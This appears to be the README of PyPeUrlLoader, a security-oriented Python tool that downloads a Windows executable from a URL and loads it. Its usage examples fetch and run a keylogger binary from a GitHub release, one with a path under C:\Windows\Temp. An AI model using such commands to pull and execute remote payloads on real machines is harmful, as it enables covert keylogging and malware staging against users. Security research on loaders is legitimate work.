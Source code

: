 ![PyPeUrlLoader Logo](https://mauricelambert.github.io/info/python/security/PyPeUrlLoader_small.png "PyPeUrlLoader logo")

# PyPeUrlLoader

## Description

This package uses PyPeLoader to load a PE program from a HTTP server
(from an URL).

## Requirements

This package require:

 - python3
 - python3 Standard Library

## Installation

### Pip

```bash
python3 -m pip install PyPeUrlLoader
```

### Git

```bash
git clone "https://github.com/mauricelambert/PyPeUrlLoader.git"
cd "PyPeUrlLoader"
python3 -m pip install .
```

### Wget

```bash
wget https://github.com/mauricelambert/PyPeUrlLoader/archive/refs/heads/main.zip
unzip main.zip
cd PyPeUrlLoader-main
python3 -m pip install .
```

### cURL

```bash
curl -O https://github.com/mauricelambert/PyPeUrlLoader/archive/refs/heads/main.zip
unzip main.zip
cd PyPeUrlLoader-main
python3 -m pip install .
```

## Usages

### Command line

```bash
PyPeUrlLoader              # Using CLI package executable
python3 -m PyPeUrlLoader   # Using python module
python3 PyPeUrlLoader.pyz  # Using python executable
PyPeUrlLoader.exe          # Using python Windows executable

PyPeUrlLoader https://github.com/mauricelambert/NimKeylogger/releases/download/v0.0.1/Keylogger.exe keylogger
PyPeUrlLoader https://github.com/mauricelambert/NimKeylogger/releases/download/v0.0.1/Keylogger.exe keylogger C:\Windows\Temp\keylogger.exe
```

## Links

 - [Pypi](https://pypi.org/project/PyPeUrlLoader)
 - [Github](https://github.com/mauricelambert/PyPeUrlLoader)
 - [Documentation](https://mauricelambert.github.io/info/python/security/PyPeUrlLoader.html)
 - [Python executable](https://mauricelambert.github.io/info/python/security/PyPeUrlLoader.pyz)
 - [Python Windows executable](https://mauricelambert.github.io/info/python/security/PyPeUrlLoader.exe)

## License

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).

